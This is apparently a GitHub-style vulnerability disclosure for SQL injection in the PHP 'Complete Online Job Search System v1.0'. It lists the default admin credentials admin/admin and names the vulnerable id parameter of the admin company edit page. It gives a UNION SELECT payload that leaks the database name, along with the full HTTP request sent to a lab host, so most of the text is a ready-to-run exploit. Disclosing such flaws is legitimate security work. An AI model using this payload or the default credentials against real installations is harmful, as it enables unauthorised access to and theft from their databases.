 # Complete Online Job Search System v1.0 has SQL injection

BUG_Author：朝歌

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/company/index.php?view=edit&id=

Vulnerability location: /eris/admin/company/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/company/index.php?view=edit&id=-3%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /eris/admin/company/index.php?view=edit&id=-3%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849041-4b0d81d6-8f1f-4a07-9166-ae5e670e336d.png)

![image](https://user-images.githubusercontent.com/54017627/170848995-09be03d4-6073-4810-afbc-053ede963d39.png)
